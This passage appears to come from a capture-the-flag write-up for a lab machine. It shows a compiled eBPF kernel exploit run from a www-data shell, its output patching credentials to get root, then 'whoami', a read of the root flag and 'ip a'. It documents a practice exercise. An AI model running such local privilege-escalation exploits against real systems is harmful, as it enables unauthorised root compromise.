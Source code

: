 <br />
Run the exploit.

{% raw %}
```bash
www-data@haircut:/dev/shm$ ./verify
./verify
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880079957100
[*] Leaking sock struct from ffff88007810f800
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880077b8d480
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff880077b8d480
[*] credentials patched, launching shell...
#
```
{% endraw %}

<br />
Run whoami to confirm that we are root.

{% raw %}
```bash
# whoami
whoami
root
```
{% endraw %}

<br />
Get the root.txt flag.

{% raw %}
```bash
# cat /root/root.txt
cat /root/root.txt
<redacted>
# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:9a:4c brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.24/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:9a4c/64 scope global mngtmpaddr dynamic 
       valid_lft 86395sec preferred_lft 14395sec
    inet6 fe80::250:56ff:feb9:9a4c/64 scope link 
       valid_lft forever preferred_lft forever
```
{% endraw %}

<br />
Look forward to seeing you in the next one.